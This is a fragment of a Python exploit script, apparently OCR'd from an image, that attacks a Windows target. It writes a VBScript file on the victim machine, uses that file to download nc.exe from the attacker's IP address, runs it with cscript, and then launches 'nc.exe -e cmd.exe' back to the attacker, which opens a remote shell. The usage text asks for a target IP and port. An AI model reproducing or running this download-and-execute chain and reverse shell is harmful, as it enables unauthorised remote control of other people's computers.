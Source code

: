 ```
	vbs = "\\C:\\\\Users\\Public\\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adim%20bStrm%3A%20Set%20bStrm%20%3D%20createobject(%22Adodb.Stream%22)%0D%0AxHttp.Open%20%22GET%22%2C%20%22http%3A%2F%2F"+ip_addr+"%2Fnc.exe%22%2C%20False%0D%0AxHttp.Send%0D%0A%0D%0Awith%20bStrm%0D%0A%20%20%20%20.type%20%3D%201%20%27%2F%2Fbinary%0D%0A%20%20%20%20.open%0D%0A%20%20%20%20.write%20xHttp.responseBody%0D%0A%20%20%20%20.savetofile%20%22C%3A%5CUsers%5CPublic%5Cnc.exe%22%2C%202%20%27%2F%2Foverwrite%0D%0Aend%20with"
	save= "save|" + vbs
	vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"
	exe= "exec|"+vbs2
	vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip_addr+"%20"+local_port
	exe1= "exec|"+vbs3
	script_create()
	execute_script()
	nc_run()
except:
	print """[.]Something went wrong..!
	Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
	Don't forgot to change the Local IP address and Port number on the script"""
```